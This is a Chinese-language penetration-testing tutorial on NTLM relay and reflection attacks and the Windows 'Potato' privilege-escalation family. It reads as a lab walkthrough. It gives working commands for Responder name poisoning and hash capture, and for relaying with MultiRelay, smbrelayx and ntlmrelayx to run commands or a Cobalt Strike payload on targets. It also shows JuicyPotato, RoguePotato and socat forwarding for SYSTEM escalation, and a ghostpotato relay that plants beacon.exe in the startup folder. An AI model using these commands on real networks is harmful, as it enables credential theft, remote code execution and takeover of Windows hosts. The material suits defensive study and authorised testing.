# 内网知识1-4

> 作者：[XiDanEr](https://github.com/xidaner)
> 更新日期 2021年8月2日

---

## 前言

本章主要介绍NTLM中继和反射

* NTLM中继和反射
  * [NTLM中继](#ntlm-中继)
    * [SMB 协议和欺骗](#smb协议和欺骗)
    * [工具介绍](#工具介绍)
    * [实战解析](#smb-中继-攻击演示)
  * [NTLM反射](#ntlm-反射)
    * [原理讲解](#原理讲解)
    * [利用方法](#如何利用)
    * [历史土豆分析](#历史土豆分析)
* 总结知识点

---

## NTLM 中继


给大家打个比方嗷

1. **SMB欺骗**：

有一个可爱JK妹妹，她喜欢你们学校的门卫大爷刘大壮。但是她记错了名字，记成了刘福腿。她先翻了学校公示栏的学生信息表，发现找不到刘福腿，然后就去学校领导办公室翻学生名册也找不到。这个时候她急了急了，就去学校广播站拿个大喇叭喊：“刘福腿,刘福腿，nia妈妈买了两罐忘崽溜赖要给nia”。这个时候整个校园的人都听到了，然后你起了歹心，想要独吞两罐忘崽溜赖。跑去和妹子说:"俺是刘福腿".这时候你伪造了一个定情信物`qweqasdqasdqdq`给妹子。妹子再拿出她的定情信物`her54568e `，和你的定情信物加密一下后返还给我。这个时候我就拿到了我自己和妹子双方信息加密后的凭证。此凭证只能用来破解出妹子的定情信物，这时候拿工具跑运气好就跑出明文密码了。


1. **NTLM中继**：

书接上文，这个时候你忽然知道了对方喜欢的是门卫大爷刘大壮！但是记错了名字。因为他两从小青梅竹马，但搬家分开了十几年忘记了名字。这个时候拿刘大壮的定情信物给JK妹妹去加密，加密后的凭证返还给刘大壮。刘大壮拿到后会进行对比，如果对比正确妹子就可以控制刘大壮的心了！但是这里存在一个问题，只有拿刘大壮本人的定情信物去加密才可以。这时候你就要跟刘大壮说我是JK妹妹，要和你发起认证。刘大壮就把加密密钥发给我了，随后我把密钥发给JK妹妹。JK妹妹拿到后加密自己凭证再发给我，这时候就拿到了刘大壮和JK妹妹的信物加密凭证了，就可以尝试去控制刘大壮了！**(男♂同竟在我身边)**

> PS：适合梦里想想，但是撞上来的不一定是JK妹妹，也可能是隔壁村的饭堂大妈。

### SMB协议和欺骗


#### SMB概述

SMB（ServerMessage Block）通信协议是微软（Microsoft）和英特尔(Intel)在1987年制定的协议，主要是作为Microsoft网络的通讯协议。SMB 是在会话层（session layer）和表示层（presentation layer）以及小部分应用层（application layer）的协议。SMB使用了NetBIOS的应用程序接口 （ApplicationProgram Interface，简称API），一般端口使用为139，445。



SMB协议是一个很重要的协议，目前绝大多数的PC上都在运行这一协议，windows系统都充当着SMB协议的客户端和服务器，所以SMB是一个遵循客户机服务器模式的协议。SMB服务器负责通过网络提供可用的共享资源给SMB客户机，服务器和客户机之间通过TCP/IP协议、或者IPX协议、或者是NetBEUI进行连接。

> SMB是应用层（和表示层）协议，使用C/S架构，其工作的端口与其使用的协议有关

当远程连接计算机访问共享资源时有两种方式：

- 共享计算机地址\共IP享资源路径

- 共享计算机名\共享资源路径

**域**

域环境底下域用户的账号密码 Hash 保存在域控的 ntds.dit 里面。如下没有限制域用户登录到某台机子，那就可以将该域用户 Relay 到别人的机子，或者是拿到域控的请求，将域控 Relay 到普通的机子，比如域管运维所在的机子。

* 域普通用户 != 中继
* 域管 == 中继
* 域普通用户+域管理员组 == 中继

## 工具介绍

### Responder

在攻防领域，欺骗从来都是技术热点区域，不管是攻守双方均会使用欺骗来进行技术上的对抗，对于防守方来说，蜜罐就是欺骗防御的代表安全产品，而对于攻击方来说，钓鱼网页、鱼叉附件等欺骗手段更是家常便饭。在内网攻防中，responder就是一个不得不说的工具，就连“攻击方天花板”----大名鼎鼎的APT组织也有使用过该款工具，`有证据表明，俄罗斯的APT组织--APT28曾经使用过这款工具进行APT攻击`。

> APT-28：https://attack.mitre.org/groups/G0007/

**安装Responder**

`Responder`在kali中已经内置，但版本更新可能不及时，最好自己进行下载更新
先配置好生成工具等环境

- apt 安装
  ```
  apt-get install build-essential git python-dev
  ```

- 从github下载源码

  ```bash
  git clone https://github.com/lgandx/Responder.git
  cd Resopnder/
  git pull
  ```

**Responder设置**

配置Kali中Responder配置文件
路径：
```
vim /usr/share/responder/Responder.conf
```
设置 `CaptureMultipleCredentials=On`，并把对应协议的 `server` 监听服务打开



> 默认不打开

**Responder参数**

> Responder的运行参数

Resopnder有很多参数：
```bash
-I  # 设置监听的网络接口，`eth0`
-f  # 收集NBT_NS或LLMNR的信息
-w  # 设置WPAD服务器
```

**快捷指令**

```bash
responder -wfF -I eth0 # 开始毒化(已黑化)，监听所有请求信息
```


## SMB 中继 攻击演示



**server 2008:** 192.168.91.11
**win10:** 192.168.91.177
**win7:** 192.168.91.128
**kali:** 192.168.91.184


### 0x001 初始访问

首先从最简单的一个场景来演示，进行最简单的中继拿hash

**拓扑图演示**



开启 `Responder` 准备嗅探


```c
responder -I eth0(默认网卡)
```



在 192.168.91.128 上访问共享



可能弹出一个访问凭据，之后我们看到responder已经嗅探到了`NTLMv2 hash`



---

### 0x002 `MultiRelayx.py` 拿下shell



下面我们利用Impacket套件中的MultiRelay.py脚本进行中继攻击

在此之前先用responder工具包里面的RunFinger.py脚本进行扫描(推荐使用[fscan](https://github.com/shadow1ng/fscan/releases))。来查看域内机器SMB签名的开放情况



发现 `SMB` 签名都已禁用了，接下来开始 Hack

```py
python3 MultiRelay.py -t <ip> -u ALL
```



现在 SMB 已经由 MultiRelay.py 脚本来进行中继，我们需要修改一下 `Responder.conf` 脚 本，不让其对 hash 进行抓取



重启` Responder.py`，准备毒化

```
responder -I eth0
```



此时我们在DC上传递一个SMB流量，随便什么都可以



我们看到已经拿到了 shell ，那么操作空间就大了很多。



，比如 Mimikatz 导出密码等，或者是横向移动，在此只是演示中继手法，大家可以自行拓展。 这里就试试看上线吧。


---

### 0x003 `smbrelayx.py` 中继攻击


还是`Impacket`中的脚本，我们浅析一下原理：

伪造一个我们恶意的SMB服务器，当内网中有机器访问这个我们精心构造好的`SMB`服务器时， `smbrelayx.py` 将抓到` Client1` 的 `hash` ，然后 `smbrelayx.py` 用抓取到的 `Client1` 的 `hash` 重 放给 `Client2` ，重放成功则会导出 `Client2` 本地的用户和 `hash` 。

**实验拓扑图**



首先还是先关闭 `responder.conf` 中的 `SMB` 和 `http` ，让` smbrelayx.py` 脚本来完成任务，这里我提前生成了一个 CS 的 `shell.exe` （当然免杀需自行处理），不要 shell 的话完全可以省略 payload ，直接：

```bash
cd /usr/share/responder/tools # CD 到smb重放工具目录下
smbrelayx.py -h <Client2 ip> -c <命令>
```

**CS上线**

```bash
cd /usr/share/responder/tools # CD 到smb重放工具目录下
smbrelayx.py -h <Client2 ip> -e ./shell.exe
```

让任意主机访问这个攻击者精心构造好的 SMB 服务器,此时在 192.168.1.177 命令行下键入

```bash
net use \\<kali IP>
```

如果输入过几次后出现缓存，DC不发包后可以尝试在文件管理器中访问



此时，攻击者的 smbrelayx 脚本上就会发现命令成功执行了



用 -e 选项会在目标主机上传并运行我们的 payload,执行上线。因为是发送一次smb 请求执行一次 所以弹了好几个shell回来...






---

### 0x004 `ntlmrelayx.py` 中继

还是 Impcaket examples 中的脚本，`ntlmrelayx.py` 直接用现有的 hash 去尝试重放指定机器 上的指定服务（`需同样关闭 responder 的 smb 和 http`） 过程不在赘述

```
ntlmrelayx.py -t <Client ip> -c whoami -smb2support
```



诱导域管理员或普通域用户访问攻击机搭建的伪造 HTTP 或 SMB 服务，并输入用户名密码：



攻击者的 ntlmrelayx 上面即可显示成功在目标上执行命令



**CS上线**

我们可以利用这个技巧执行 `POWERSHELL command` 上线 `CS`

```bash
ntlmrelayx.py -t <Client ip> -c '生成的powershell脚本内容'
```

点击攻击生成payload



选择 Powershell Command



拼凑一下代码开启服务



执行过程过于漫长..但也算是成功了




---


## NTLM 反射


当我们有了 NTLM 中继的知识点，学习 NTLM 反射就很简单了，可以理解为：
攻击者通过一定的方法使得 Client 与自己进行认证，然后将 Client 发送过来的 Credential 转发回 Client 自身，从而攻击 Client（你也可以认为此时的 Client 也相当于是一台 Server）。早年出现的 SMBRelay 攻击方案就是这种方法。


### 原理讲解

**SeAssignPrimaryTokenPrivilege 权限**

1. System帐号（也叫LocalSystem）的交互服务与非交互服务初始特权都一样

2. 非System帐号的特权数一样（与具体帐号有关），只是做为服务的程序大部分特权初始都是关闭的，需要服务自己根据需要打开（Enable）

3. System帐号的特权比Administrator帐号多出几个特权：`SeAssignPrimaryTokenPrivilege`，`SeLockMemoryPrivilege`，`SeTcbPrivilege`，`SeCreatePermanentPrivilege`，`SeAuditPrivilege`；但 `Administrator` 帐号多了一个`SeRemoteShutdownPrivilege` 特权

4. 除了System帐号，其他帐号是不可能运行在TCB中的

### 如何利用

1. 利用Potato提权的是前提是拥有 `SeImpersonatePrivilege` 或`SeAssignPrimaryTokenPrivilege`权限，以下用户拥有`SeImpersonatePrivilege`权限:
   - 本地管理员账户(不包括管理员组普通账户)和本地服务账户

2. Windows服务的登陆账户

   - Local System(**NT AUTHORITY\SYSTEM**)

   - Network Service(**NT AUTHORITY\Network Service**)

   - Local Service(**NT AUTHORITY\Local Service**)

也就是说提权方向应该是：

  ```
  Administrator ——> SYSTEM
  Service       ——> SYSTEM
  ```

服务账户在 `windows` 权限模型中本身就拥有`很高的权限`
在实际渗透过程中，拿到 `webshell` 下，用户权限是 `IIS` 或者 `apache`，或通过`SQLi`执行 `xp_cmdshell` ,此时手里的服务账户在进行操作时是低权限账户，而使用该提权手法可以直接获取 `SYSTEM` 权限。

3. `windows token`

`windows token` 是描述安全上下文的对象，用户登陆后系统就会生成 `token`，创建新进程或新线程时这个token会不断口碑

```
用户账户的(SID)
用户所属的组的SID
用于标识当前登陆会话的登陆SID
用户或用户组所拥有的权限列表
所有者SID
所有者组的SID
访问控制列表
访问令牌的来源
主令牌/模拟令牌
限制SID的可选列表
```



当用户具有`SeImpersonatePrivilege`特权，则可以调用`CreateProcessWithTokenW`时以某个Token的权限启动新进程
当用户具有`SeAssignPrimaryTokenPrivilege`特权，则可以调用`CreateProcessAsUserW`以`Token`权限启动新进程

---

## 历史土豆分析

### Origin Potato_MS08-068

漏洞详情：
- https://support.microsoft.com/zh-cn/topic/ms08-068-vulnerability-in-smb-could-allow-remote-code-execution-cdd08c90-10d4-ca87-68d3-4841472ba1ec

`Microsoft Server Message Block` (SMB) 协议中一个公开披露的漏洞。该漏洞可能允许在受影响的系统上执行远程代码。成功利用此漏洞的攻击者可以安装程序；查看、更改或删除数据；或创建具有完全用户权限的新账户。


在漏洞修复之前，当拿到用户的 smb 请求之后，最直接的就是把请求 Relay 回用户本身，即 `Reflect`。从而控制机子本身。

Microsoft 知识库文章 `957097` 记录了客户在安装此安全更新时可能遇到的当前已知问题。

出现这个问题的原因是NT LAN Manager (NTLM)将不同的命名约定视为远程实体而不是本地实体。当客户端在将响应发送回服务器之前，在本地 "lsass "内存中计算并缓存服务器发送的NTLM挑战的正确响应时，可能会发生本地验证失败。当NTLM的服务器代码在本地“ lsass”缓存中找到接收到的响应时，该代码将不接受身份验证请求，并将其视为重播攻击。此行为导致本地身份验证失败。

**简单的来说:**


主机 A 向主机 B(访问 `\\B`) 进行 SMB 认证的时候，将 `pszTargetName` 设置为 `cifs/B`, 然后在 `type 2` 拿到主机 B 发送 `Challenge` 之后，在 `lsass` 里面缓存 (`Challenge`,cifs/B)。

然后主机 B 在拿到主机 A 的 `type 3 `之后，会去查看 `lsass` 里面有没有缓存 (`Challenge`,`cifs/b`)，如果存在缓存，那么认证失败。

这种情况底下，如果主机 B 和主机 A 是不同的主机的话，那 `lsass` 里面就不会缓存 (`Challenge`,`cifs/B`)。如果是同一台主机的话，那 `lsass` 里面肯定有缓存，这个时候就会认证失败。


### MS16-075_HOT Potato

**利用工具**：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075

**漏洞原理**

一个典型的 `NTLM_RELAY` 利用链,需要等待 `windows update`。

利用环境：`DBNS`欺骗，`WPAD` 和 `Windows update` 服务,按照Relay的一般流程，我们从三方面着手，将思路串起来，达到本地提权的效果

1. 怎么发起ntlm请求
发起ntlm请求请求的方式:
配合NBNS投毒欺骗和伪造WPAD代理服务器拿到用户的 `Net-NTML hash`，所有的HTTP请求将会被重定向至 "http://localhost/GETHASHESxxxxx" ，其中的xxxxx表示的是某些唯一标识符。将会影响目标主机中所有的用户，包括管理员账户和系统账户

2. 拿到ntlm 请求之后要做什么
MS08-068虽然限制了同台主机之间smb到smb的Relay，但是并没有限制从http到smb，我们配置配合NBNS投毒欺骗和伪造WPAD代理服务器拿到的ntlm请求说http的形式，我们可以直接relay 到本机的smb。

3. 服务端是否要求签名
我们Relay到的服务端协议是smb，除非是域内的域控，不然在工作组环节底下，或者域内的域成员机器，都是不要求签名的。

### Rotten Potato

详情：https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/


通过 `DCOM call` 来使服务向攻击者监听的端口发起连接并进行 `NTLM` 认证,需要`SelmpersonatePrivilege`权限

此时，如果要模拟令牌，最好以具有SeImpersonate特权（或等效特权）的帐户运行。幸运的是，这包括Windows中的许多服务帐户，渗透测试人员通常最终以这些帐户运行。例如，IIS和SQL Server帐户。


### Juicy Potato

`Juicy Potato`的实现流程如下：



1. 加载COM，发出请求，权限为 `System`,在指定ip和端口的位置尝试加载一个COM对象。

`RottenPotatoNG` 使用的 COM 对象为 BITS ，CLSID为`{4991d34b-80a1-4291-83b6-3328366b9097}`
可供选择的COM对象不唯一，`Juicy Potato` 提供了多个，详细列表可参考如下地址：

https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

2. 回应步骤1的请求，发起NTLM认证,正常情况下，由于权限不足，当前权限不是System，无法认证成功。

3. 针对本地端口，同样发起NTLM认证，权限为当前用户。由于权限为当前用户，所以NTLM认证能够成功完成。`RottenPotatoNG` 使用的 `135` 端口。

`Juicy Potato` 支持指定任意本地端口，但是RPC一般默认为135端口，很少被修改。

4. 分别拦截两个`NTLM`认证的数据包，替换数据，通过NTLM重放使得步骤1(权限为`System`)的NTLM认证通过，获得`System`权限的`Token`,重放时需要注意`NTLM`认证的`NTLM Server Challenge`不同，需要修正。

5. 利用`System`权限的`Token`创建新进程

- 如果开启SeImpersonate权限，调用CreateProcessWithToken，传入System权限的Token，创建的进程为System权限。

- 如果开启SeAssignPrimaryToken权限，调用CreateProcessAsUser，传入System权限的Token，创建的进程为System权限

常用工具：

https://github.com/ohpe/juicy-potato


常用命令：

```
JuicyPotato -p "whoami /priv"
或
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

如果用户具有 `SeImpersonate` 或 `SeAssignPrimaryToken` 特权，那么提权后就是 `SYSTEM`。

### Sweet Potato_Juicy Potato衍生版本

`Juicy Potato` 的重写

https://github.com/CCob/SweetPotato

`COM/WinRM/Spoolsv` 的集合版，也就是 `Juicy/PrintSpoofer`
从Windows 7 到 windows10/windows server2019的本地服务到system特权升级


### PrintSpoofer

最初公开POC的老外叫它 `PrintSpoofer`，之后360的paper叫它 `PipePotato`，然后GitHub一个国人的POC又叫它 `BadPotato`。尊重第一个公开POC的作者，后文叫它`PrintSpoofer`.

该POC是`2020.5`公开的，它是通过Windows named pipe的一个API: `ImpersonateNamedPipeClient`来模拟高权限客户端的token（还有类似的`ImpersonatedLoggedOnUser`，`RpcImpersonateClient`函数），调用该函数后会更改当前线程的安全

但当传递`\\127.0.0.1/pipe/foo`时，校验路径时会认为`127.0.0.1/pipe/foo`是主机名，随后在连接`named pipe`时会对参数做标准化，将`/`转化为`\`，于是就会连接`\\127.0.0.1\pipe\foo\pipe\spoolss`，攻击者就可以注册这个`named pipe`从而窃取`client`的`token`



这个POC有趣的地方在于，它利用了打印机组件路径检查的BUG，使`SYSTEM`权限服务能连接到攻击者创建的`named pipe`


### RoguePotato

- https://github.com/antonioCoco/RoguePotato

利用了命名管道,微软修补后，高版本` Windows DCOM` 解析器不允许`OBJREF`中的`DUALSTRINGARRAY`字段指定端口号。为了绕过这个限制并能做本地令牌协商，作者在一台远程主机上的`135`端口做流量转发，将其转回受害者本机端口，并写了一个恶意`RPC OXID`解析器

**RPC支持的协议**
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/472083a9-56f1-4d81-a208-d18aef68c101

|RPC transport	|RPC protocol sequence string|
|-|-|
|SMB	|ncacn_np (see section 2.1.1.2)
|TCP/IP (both IPv4 and IPv6)	|ncacn_ip_tcp (see section 2.1.1.1)
|UDP	|ncadg_ip_udp (see section 2.1.2.1)
|SPX	|ncacn_spx (see section 2.1.1.3)
|IPX	|ncadg_ipx (see section 2.1.2.2)
|NetBIOS over IPX	|ncacn_nb_ipx (see section 2.1.1.4)
|NetBIOS over TCP	|ncacn_nb_tcp (see section 2.1.1.5)
|NetBIOS over NetBEUI	|ncacn_nb_nb (see section 2.1.1.6)
|AppleTalk	|ncacn_at_dsp (see section 2.1.1.7)
|RPC over HTTP	|ncacn_http (see section 2.1.1.8)

**利用代码：**

```bash
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

**示例**


###  CVE-2019-1384_Ghost potato

**相关文章**

  - [Ghost Potato](https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html)
  - [Ghost Potato 复现(Cve-2019-1384)](https://xz.aliyun.com/t/7087)

这个漏洞绕过了 `MS08-068` 之后，用户不能 `relay` 回本机的限制。

[ghostpotato-利用工具](https://shenaniganslabs.io/files/impacket-ghostpotato.zip)

主机A向主机B(访问`\\B`)进行SMB认证的时候，将 `pszTargetName` 设置为 `cifs/B` ,然后在`type 2`拿到主机B发送 `Challenge` 之后，在 `lsass` 里面缓存( `Challenge` , `cifs/B` )。

然后主机B在拿到主机A的type 3之后，会去 `lsass` 里面有没有缓存( `Challenge` , `cifs/b` )，如果存在缓存，那么认证失败。


这种情况底下，如果主机B和主机A是不同的主机的话，那 `lsass` 里面就不会缓存(`Challenge`,`cifs/B`)。如果是同一台主机的话，那 `lsass` 里面肯定有缓存，这个时候就会认证失败。

然而这个缓存(`Challenge`,`cifs/B`)是有时效性的，这个时间是`300`秒，也就是说300秒后，缓存(Challenge,cifs/B)就会被清空，这个时候即使主机A和主机B是同一台主机，那么由于缓存已经被清除，那么去 `lsass` 里面肯定找不到缓存(`Challenge`, `cifs/B` )。


```bash
cd impacket-ghostpotato
pip uninstall impacket
pip install .
cd examples
python3 ntlmrelayx.py -t smb://192.168.91.2 -smb2support --gpotato-startup beacon.exe(内容)
```



```
responder -I eth0 --lm
```

使用 IE 浏览器进行访问






经过 `315` 秒后 POC 会自动上传文件到 WIndows 启动目录，用户下次登录时自启动





**Poc提供两个上传路径**



---

## 总结

本次我们学习了以下知识点


---

## 扩展阅读

* https://mp.weixin.qq.com/s?__biz=Mzg2NDU3Mzc5OA==&mid=2247485796&idx=1&sn=0cb3cc71d0888c7f7390da2098556dab&source=41#wechat_redirect
* https://en.hackndo.com/ntlm-relay/
* https://blog.csdn.net/whatday/article/details/107698383
* https://github.com/No-Github/1earn/blob/6100a630e87a57bdd3228207d50f901d351ba423/1earn/Security/RedTeam/OS%E5%AE%89%E5%85%A8/%E5%AE%9E%E9%AA%8C/NTLM%E4%B8%AD%E7%BB%A7.md
* https://www.freebuf.com/articles/network/256844.html